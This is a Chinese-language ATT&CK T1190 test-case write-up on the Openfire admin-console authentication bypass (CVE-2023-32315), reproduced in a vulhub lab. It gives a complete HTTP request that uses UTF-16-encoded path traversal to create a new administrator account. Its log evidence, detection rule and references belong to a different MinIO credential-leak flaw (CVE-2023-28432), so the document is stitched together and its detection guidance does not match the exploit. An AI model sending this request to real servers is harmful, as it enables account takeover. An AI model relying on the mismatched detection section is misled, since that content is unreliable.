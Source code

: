 # T1190-CVE-2023-32315-Openfire管理后台认证绕过漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Openfire 是根据开放源 Apache 许可获得许可的实时协作（RTC）服务器。

在Openfire版本4.7.4和4.6.7及以前，Openfire的Web管理后台存在一处目录穿越漏洞，这将允许攻击者绕过权限校验访问所有受限页面。

参考文档：

- https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm
- https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w


## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

漏洞环境直接使用[vulhub](https://github.com/vulhub)提供的docker环境。执行如下命令启动一个4.7.4版本的Openfire:

```
docker compose up -d
```

服务器启动后，访问http://your-ip:9090你将会被强制跳转到登录页面。


### 漏洞复现

十多年前，Openfire管理后台中曾被发现一处路径穿越漏洞CVE-2008-6508。攻击者可以利用/setup/setup-/../../[page].jsp来绕过权限校验并访问任意后台页面。

从那以后，Openfire增加了对于路径穿越问题的防护策略，用以抵御这个漏洞。但是因为后来内置的Web服务器的升级，引入了对UTF-16字符支持的非标准URL，而前面的防护策略并没有考虑到这一点。

这样也导致我们可以使用UTF-16字符来绕过路径穿越的防护，再次复活路径穿越漏洞，/setup/setup-/%u002e%u002e/%u002e%u002e/[page].jsp。

我们可以发送如下数据包，利用该路径穿越漏洞创建一个新的管理员：

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=mdcc1c&name=&email=&password=mdcc1c&passwordConfirm=mdcc1c&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken
```

虽然这个请求的响应包中包含异常，但实际上新用户已经被创建，账号密码均为mdcc1c




## 测试留痕

![http.log](/1.png)

HTTP_log

```yml
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 10.211.55.71:9000
User-Agent: curl/7.81.0
Accept: */*

HTTP/1.1 200 OK
Content-Security-Policy: block-all-mixed-content
Strict-Transport-Security: max-age=31536000; includeSubDomains
Vary: Origin
X-Amz-Id-2: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
X-Amz-Request-Id: 176C8C25765008C9
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Date: Tue, 27 Jun 2023 15:00:52 GMT
Content-Length: 1107
Content-Type: text/plain; charset=utf-8

{"MinioEndpoints":[{"Legacy":true,"SetCount":1,"DrivesPerSet":3,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"node1:9000","Path":"/mnt/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"node2:9000","Path":"/mnt/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"node3:9000","Path":"/mnt/data3","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://node1:9000/mnt/data1 http://node2:9000/mnt/data2 http://node3:9000/mnt/data3","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_ROOT_PASSWORD":"minioadmin-vulhub","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"minioadmin","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key"}}
```

## 检测规则/思路

对请求方法和URL、HOST内容进行分析，同时观察返回内容中是否包含MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2023-28432

<https://github.com/vulhub/vulhub/blob/6e9b1c1acd60529384a5751ea9de4dae595259c6/minio/CVE-2023-28432/README.zh-cn.md>

MinIO信息泄漏分析与复现CVE-2023-28432

<https://aq.mk/index.php/archives/142.html>
